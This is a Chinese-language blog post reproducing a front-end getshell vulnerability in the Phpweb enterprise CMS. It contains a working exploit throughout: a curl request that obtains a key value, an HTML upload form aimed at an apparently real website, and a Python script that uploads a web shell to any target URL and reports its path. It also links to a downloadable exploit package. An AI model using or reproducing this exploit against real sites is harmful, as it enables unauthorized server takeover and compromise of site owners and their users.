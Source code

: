 ```yaml
---
title: Phpweb Reception Getshell
published: true
---
```

Phpweb 是一款企业cms，并不开源，但这并不妨碍Hacker们查找漏洞!

# [](#header-1)前言

这篇文章是复现Phpweb前台getshell漏洞,漏洞详细我不讲了,请自行到90SEC(forum.90sec.com)上查看!

本篇文章还会涉及工具的编写(Python)!

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

# [](#header-2)复现

1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!
```php
curl "http://website/base/post.php" -H "act=appcode"
```
![](https://m4tir.github.io/assets/1.png)
```php
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值
```
2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!
```php
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!
```
3.Getsehll
exp:
```php
<html>
<body>
<form action="http://wxzljz.com/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html>
```
![](https://m4tir.github.io/assets/2.png)

然后...Getshell!

![](https://m4tir.github.io/assets/3.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是/effect/source/bg/shell名称.php

![](https://m4tir.github.io/assets/4.png)

# [](#header-3)工具编写
Python exp[Python3]:
```python
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()
headers = open(bdlj+"\headers.txt",'r')
headerss = headers.read()
print('\b')

ur = input("请输入目标网址:")
requrl =  ur + '/base/post.php'
reqdata = {"act":"appcode"}
r = requests.post(requrl,data=reqdata)
cz=r.text[2:34]
print ('初值:' + cz)

cz=r.text[2:34]+"a"
m = hashlib.md5()
b = cz.encode(encoding='utf-8')
m.update(b)
zz = m.hexdigest()
print ('终值:' + zz)

infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
for line in infile:
      outfile.write(line.replace('156as1f56safasfasfa', zz))
infile.close()
outfile.close()
datas = open(bdlj+"\datah.txt",'r')
datass = datas.read()

gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
gs.encoding = 'utf-8'
print (gs.text)

if {gs.text == "OK"}:
	print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
else:
	print ("Getsehll失败!")
```

整包下载地址:https://m4tir.github.io/assets/Phpweb-Getshell-py.rar

使用请下载整包,否则会缺少协议头和data数据!

END!
